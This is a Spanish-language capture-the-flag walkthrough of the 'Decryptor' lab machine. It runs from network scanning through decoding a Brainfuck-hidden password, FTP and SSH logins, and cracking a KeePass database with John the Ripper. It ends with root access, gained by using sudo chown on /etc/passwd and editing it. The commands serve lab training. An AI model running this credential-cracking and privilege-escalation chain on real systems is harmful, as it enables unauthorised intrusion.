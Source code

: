# Decryptor

Maquinas a utilizar Kali Linux y Decryptor [https://thehackerslabs.com/decryptor/](https://thehackerslabs.com/decryptor/)

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%20162.png)

```bash
nmap -p- -sS -sV -sC --open -min-rate=1000 -n -vvv -Pn 10.0.3.36
```

![image.png](./imagenes/image%20163.png)

- Miramos lo que corre por el puerto 80
    
    ![image.png](./imagenes/image%20164.png)
    
    `CTRL+Z`
    
    ![image.png](./imagenes/image%20165.png)
    
    Vemos el siguiente código Brainfuck.
    
    ```
    <!--++++++++++[>+++++++++++>++++++++++>+++++++++++>+++++++++++>+++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++++>+++++++++++>++++++++++>++++++++++++>++++++++++++>++++++++++>++++++++++<<<<<<<<<<<<<<<-]>-.>---.>++++.>-----.>+.>+.>---.>----.>-----.>--.>+.>----..>---.>-.>+. -->
    
    ```
    
    Pero para decodificarlo debemos descartara `<!--` al principio y  `-->` al final. Quedando así:
    
    ```
    <!--++++++++++[>+++++++++++>++++++++++>+++++++++++>+++++++++++>+++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++++>+++++++++++>++++++++++>++++++++++++>++++++++++++>++++++++++>++++++++++<<<<<<<<<<<<<<<-]>-.>---.>++++.>-----.>+.>+.>---.>----.>-----.>--.>+.>----..>---.>-.>+. -->
    
    ```
    

- Utilizamos para la decodificación la pagina [https://www.dcode.fr/](./imagenes/https://www.dcode.fr/).
    
    ![image.png](./imagenes/image%20166.png)
    
    **marioeatslettuce**
    

- Aquí debemos emplear la deducción y el usuario: **mario** y la password: **marioeatslettuce** y lo probamos con el FTP**.**
    
    ```bash
    ftp 10.0.3.36 -p 2121
    ```
    
    ![image.png](./imagenes/image%20167.png)
    

- Nos encontramos con el archivo **user.kdbx**  en esta misma carpeta ****y lo descargamos a nuestra maquina Kali**.**
    
    `ls -la`
    
    `get user.kdbx`
    
    ![image.png](./imagenes/image%20168.png)
    

- Vamos a intentar cracker el archivo con **John the Rippers.**
    
    ```bash
    keepass2john user.kdbx > hash
    ```
    
    ![image.png](./imagenes/image%20169.png)
    
    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt hash 
    ```
    
    ![image.png](./imagenes/image%20170.png)
    
    Ya tenemos la contraseña: **moonshine1**
    

- Como no tengo keepass instalado lo instalo.
    
    ```bash
    sudo apt install keepass2
    ```
    

- Abro el archivo con el programa Keepass
    
    ![image.png](./imagenes/image%20171.png)
    
    ![image.png](./imagenes/image%20172.png)
    
    **Usuario: chiquero Password: barcelona2012**
    

- Entramos por SSH con las credenciales obtenidas.
    
    ```bash
    ssh [chiquero@10.0.3.36](./imagenes/mailto:chiquero@10.0.3.36)
    ```
    
    ![image.png](./imagenes/image%20173.png)
    
- Listamos vulnerabilidades con **sudo -l**
    
    `sudo -l`
    
    ![image.png](./imagenes/image%20174.png)
    
- Usamos la web [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/)
    
    ![image.png](./imagenes/image%20175.png)
    

- Cambiamos el propietario y el grupo del archivo `/etc/passwd` a los del usuario que lo ejecuta. Y lo modificamos para poder ser root.
    
    ```bash
    LFILE=/etc/passwd
    ```
    
    ```bash
    sudo chown $(id -un):$(id -gn) $LFILE
    ```
    
    ```bash
    nano /etc/passwd
    ```
    
    ![image.png](./imagenes/image%20176.png)
    
    ![image.png](./imagenes/image%20177.png)
    
    Le quitamos la `X`
    
    ![image.png](./imagenes/image%20178.png)
    
- Nos convertimos en **root**
    
    `su root`
    
    `whoami`
    
    ![image.png](./imagenes/image%20179.png)
   
